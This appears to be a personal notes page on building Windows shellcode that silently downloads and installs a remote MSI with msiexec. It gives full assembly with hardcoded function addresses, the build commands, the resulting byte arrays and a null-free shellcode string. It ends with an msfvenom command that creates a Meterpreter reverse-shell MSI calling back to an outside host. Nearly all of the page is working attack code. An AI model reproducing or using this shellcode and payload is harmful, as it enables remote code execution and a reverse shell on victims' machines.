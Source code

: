 # *Note.... **I hate formatting wikis**

https://web.archive.org/web/20120503030935/http://projectshellcode.com/?q=node/12

1. I followed above first two tutorials (1. Intro tools & setup 2. My first shellcode.) to output shellcode, alternatively follow shellcode developer's write-

up....I'm sure it works!

Shellcode Developer: Kartik Durg

https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/

2. The following asm does this: #

3. msiexec /i http://172.16.0.14/jasonm.msi /qn

4. Need to Determine LoadLibrary, ExitProcess & System via Arwin


------------assembly starts---------------

BITS 32


global _start


_start:
			
mov ebx, 0x777fde35      		;Address of function LoadLibraryA (win7)

call ebx

mov ebp, eax             		;msvcrt.dll is saved in ebp

xor eax, eax

PUSH eax

PUSH 0x6e712f20

PUSH 0x69736d2e

PUSH 0x6d6e6f73

PUSH 0x616a2f34

PUSH 0x312e302e

PUSH 0x36312e32

PUSH 0x37312f2f

PUSH 0x3a707474

PUSH 0x6820692f

PUSH 0x20636578

PUSH 0x6569736d

MOV EDI,ESP

PUSH EDI

MOV EAX, 0x768db177			;calling the system()

CALL EAX

xor eax, eax

push eax

mov eax, 0x7780be5a     		; ExitProcess

call eax

--------------assembly end----------------------------------

5. Save as msi.asm

6. Using Cygwin

7.xvz@xvz-PC ~
$ nasm -f win32 msi.asm -o msi.bin

8.xvz@xvz-PC ~
$ xxd -i msi.bin
unsigned char msi_bin[] = {
  0x4c, 0x01, 0x01, 0x00, 0x2e, 0x4c, 0x0f, 0x5f, 0x93, 0x00, 0x00, 0x00,
  0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78,
  0x74, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x57, 0x00, 0x00, 0x00, 0x3c, 0x00, 0x00, 0x00, 0x93, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x20, 0x00, 0x50, 0x60,
  0xbb, 0x35, 0xde, 0x7f, 0x77, 0xff, 0xd3, 0x89, 0xc5, 0x31, 0xc0, 0x50,
  0x68, 0x20, 0x2f, 0x71, 0x6e, 0x68, 0x2e, 0x6d, 0x73, 0x69, 0x68, 0x73,
  0x6f, 0x6e, 0x6d, 0x68, 0x34, 0x2f, 0x6a, 0x61, 0x68, 0x2e, 0x30, 0x2e,
  0x31, 0x68, 0x32, 0x2e, 0x31, 0x36, 0x68, 0x2f, 0x2f, 0x31, 0x37, 0x68,
  0x74, 0x74, 0x70, 0x3a, 0x68, 0x2f, 0x69, 0x20, 0x68, 0x68, 0x78, 0x65,
  0x63, 0x20, 0x68, 0x6d, 0x73, 0x69, 0x65, 0x89, 0xe7, 0x57, 0xb8, 0x77,
  0xb1, 0x8d, 0x76, 0xff, 0xd0, 0x31, 0xc0, 0x50, 0xb8, 0x5a, 0xbe, 0x80,
  0x77, 0xff, 0xd0, 0x2e, 0x66, 0x69, 0x6c, 0x65, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0xfe, 0xff, 0x00, 0x00, 0x67, 0x01, 0x6d, 0x73, 0x69,
  0x2e, 0x61, 0x73, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78, 0x74, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x03, 0x01, 0x57, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x61, 0x62, 0x73, 0x6f, 0x6c, 0x75, 0x74, 0x00,
  0x00, 0x00, 0x00, 0xff, 0xff, 0x00, 0x00, 0x03, 0x00, 0x40, 0x66, 0x65,
  0x61, 0x74, 0x2e, 0x30, 0x30, 0x01, 0x00, 0x00, 0x00, 0xff, 0xff, 0x00,
  0x00, 0x03, 0x00, 0x04, 0x00, 0x00, 0x00
};

8.Get rid of null bytes

9.xvz@xvz-PC ~
$ ./xxd-shellcode.sh msi.bin

"\xbb\x35\xde\x7f\x77\xff\xd3\x89\xc5\x31\xc0\x50\x68\x20\x2f\x71\x6e\x68\x2e\x6d\x73\x69\x68\x73\x6f\x6e\x6d\x68\x34\x2f\x6a\x61\x68\x2e\x30\x2e\x31\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x37\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x89\xe7\x57\xb8\x77\xb1\x8d\x76\xff\xd0\x31\xc0\x50\xb8\x5a\xbe\x80\x77\xff\xd0"

10.Add to script

11.Create MSI
msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.0.14 -f msi -o jasonm.msi

Start web-server port 80

